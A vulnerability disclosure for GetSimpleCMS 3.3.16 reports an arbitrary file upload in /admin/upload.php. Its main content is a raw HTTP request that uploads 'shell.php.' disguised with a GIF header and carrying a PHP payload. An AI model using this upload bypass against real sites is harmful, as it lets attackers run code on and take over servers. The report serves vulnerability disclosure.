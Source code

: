 #### BUG_AUTHOR:acmglz
# GetSimpleCMS has any file upload
## Download address:
https://github.com/GetSimpleCMS/GetSimpleCMS/releases/tag/v3.3.16
## Version:V3.3.16
## Tested on: PHP, Apache, MySQL
## Affected Page:
/admin/upload.php

Attackers can control the permissions of websites by uploading files

## Proof of vulnerability:
## Payload：

request

```
POST /admin/upload.php?path= HTTP/1.1
Host: cmsxxxx.com
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Referer: http://cmsxxxx.com/admin/upload.php?path=
Content-Type: multipart/form-data; boundary=---------------------------306376624418395856912301056693
Cookie: GS_ADMIN_USERNAME=admin; 7c6db860ae06e77e5966ec2e1a68fd569dfd0ec3=1c2bded131bc03c6479b9dfbf87d9cb3109d69b8; 1a8a1561415a3403d5d9ce1b88113e15eefa929f=fb7dae482af37afd608b723a500bcb0e9d4879d8
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Sec-GPC: 1
Origin: http://cmsxxxx.com
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Content-Length: 508

-----------------------------306376624418395856912301056693
Content-Disposition: form-data; name="file[]"; filename="shell.php."
Content-Type: image/jpeg

gif89a
<?php phpinfo();?>
-----------------------------306376624418395856912301056693
Content-Disposition: form-data; name="hash"

6147eb7408034d9137a0d56a14bed92d9609fb46
-----------------------------306376624418395856912301056693
Content-Disposition: form-data; name="submit"

Upload
-----------------------------306376624418395856912301056693--

```

## Trigger popup：
When the file is uploaded, the data packet is captured. Change it to the following

![image](https://github.com/user-attachments/assets/7075f1f7-7367-4f09-8f8b-d748b4694608)


When you return to the folder, you can see that the upload was successful
![image](https://github.com/user-attachments/assets/2b6de873-8e8f-47ba-a41f-46ca04ad001c)


After the test, the directory is inaccessible by default. If the directory and its upper directory do not have.htaccess files, the directory can be successfully accessed

![image](https://github.com/user-attachments/assets/a018391d-7f01-4fb2-b7a1-c4d818d2bee3)

